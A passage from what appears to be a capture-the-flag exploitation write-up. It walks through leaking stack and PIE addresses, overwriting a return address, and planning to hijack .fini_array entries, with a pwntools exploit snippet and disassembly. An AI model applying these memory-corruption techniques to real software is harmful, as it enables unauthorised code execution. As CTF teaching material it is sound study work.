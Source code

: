 When deciding what to leak and where to write, the first move is not too complicated to see. If we leak ASLR we can then write into the stack, overwriting the return address.  
Controlling the return address allows us to jump back into `do_leak`, then leaking PIE.  

```python
io.recvuntil(b'pie')
io.readline()

io.sendline(b'1')
io.recvuntil(b'> ')
stack_leak = io.readline()[:-1]

log.success(stack_leak)

stack_leak = int(stack_leak,16)

ret_addr = stack_leak +0x18

io.send(str(ret_addr))
io.send(b'\x04')


io.recvuntil(b'pie')
io.readline()

io.sendline(b'2')
io.recvuntil(b'> ')
pie_leak = io.readline()[:-1]

log.success(pie_leak)
pie_leak = int(pie_leak,16)

exe.address =   pie_leak - exe.sym['do_leak']
```
The location of the return address can be found out using gdb quite easily.  
What do we do now? We can keep jumping into `do_overwrite`, but that consumes our only write.  
For this, we can abuse `.fini_array`. This is an array of pointers to functions that will be called once the program exits. 
```
                             //
                             // .fini_array 
                             // SHT_FINI_ARRAY  [0x2adfb0 - 0x2adfbf]
                             // ram:003adfb0-ram:003adfbf
                             //
                             __DT_FINI_ARRAY                                 XREF[5]:     __libc_csu_init:001097cc(*), 
                             __fini_array_start                                           __libc_csu_fini:00109818(*), 
                             __init_array_end                                             __libc_csu_fini:00109838(R), 
                             __do_global_dtors_aux_fini_array_entry                       003b0da0(*), 
                                                                                          _elfSectionHeaders::00000550(*)  
        003adfb0 50 89 10        addr       __do_global_dtors_aux
                 00 00 00 
                 00 00
                             PTR_fini_003adfb8                               XREF[1]:     __libc_csu_fini:00109838(R)  
        003adfb8 b0 83 10        addr       fini
                 00 00 00 
                 00 00
```
We can see here that there are two entries in `.fini_array`. Which means we could potentially call two functions of our choice if we controlled this array.  